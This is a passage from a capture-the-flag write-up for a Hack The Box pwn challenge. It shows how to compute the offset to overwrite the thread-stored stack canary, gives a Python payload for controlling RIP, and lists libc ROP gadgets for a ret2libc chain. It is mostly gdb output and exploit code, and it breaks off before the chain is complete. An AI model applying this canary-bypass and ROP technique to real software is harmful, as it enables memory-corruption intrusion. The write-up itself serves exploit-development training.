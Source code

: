 ```c
} tcbhead_t;
```

We then know that our stack_canary is stored is 0x7f2e537ca700 + 0x28 = 0x7f2e537ca728.

Let's calculate the offset between our `robot->operation-result` and `fs:0x28` :

```py
(gdb) x/gx $rbp-0x118
0x7f2e537c9db8:	0x00000000021663c0
(gdb) x/10gx 0x00000000021663c0
0x21663c0:	0x0000000000000000	0x00007f2e4c0008d0
0x21663d0:	0x0000000002166820	0x0000000000000003
0x21663e0:	0x00007f2e537c9dc0	0x0000000000000005
0x21663f0:	0x0000000000000000	0x0000000000000001
0x2166400:	0x0000000000000000	0x0000000000000411
(gdb) q

root@004b5e518bfc ~/htb_pwn_robot_factory# python3 -q
>>> operation_result = 0x00007f2e537c9dc0
>>> canary = 0x7f2e537ca728
>>> canary - operation_result
2408
```

We will then need to write 2408 characters before overwriting the stack_canary value. Don't forget that if we overwrite `fs:0x28`, we will have to overwrite the saved canary on the stack in `do_string` (`[rbp-0x8]`) with the same value ! Otherwise, `__stack_chk_fail` will be called because `[rbp-0x8]` will not be equal to `fs:0x28`.

Now, let's say we overwrite those two values with 'AAAAAAAA' and let's find at wich offset we will control RIP. To do this, I will put 8*'A' in `robot->element1` and increment the multiplier in `robot->element2`.

After a quick research time, we can deduce an input that will overwrite `[rbp-0x8]` and `fs:0x28` with the same value and let us control RIP :

```py
payload = b"A" * 40    # TCB + [rbp-0x8] (from do_string)
payload += b'BBBBBBBB' # RIP
payload = payload.ljust(120, b'B') 

multiplier = 20

final = payload * multiplier
```

Let's find interesting gadgets and p our ret2libc ! 


## ret2libc gadgets and payload

We now need to find our gadgets to perform our ROP/ret2libc. We will search in the libc to have more potential gadgets.

```bash

$ ROPgadget --binary ./libc.so.6 | grep ": ret$"
0x0000000000025679 : ret
$ ROPgadget --binary ./libc.so.6 | grep ": pop rdi ; ret$"
0x0000000000026b72 : pop rdi ; ret
$ ROPgadget --binary ./libc.so.6 | grep ": pop rsi ; ret"
0x0000000000027529 : pop rsi ; ret
$ ROPgadget --binary ./libc.so.6 | grep ": pop rdx ; .* ret"
0x00000000001826b6 : pop rdx ; add eax, 0x83480000 ; ret 0x4910
0x0000000000054de9 : pop rdx ; add rsp, 0x38 ; pop rbx ; pop rbp ; ret
0x0000000000117af0 : pop rdx ; add rsp, 0x38 ; ret
0x00000000000da21e : pop rdx ; cmc ; sub byte ptr [rax - 0x77], cl ; retf 0xc148
```
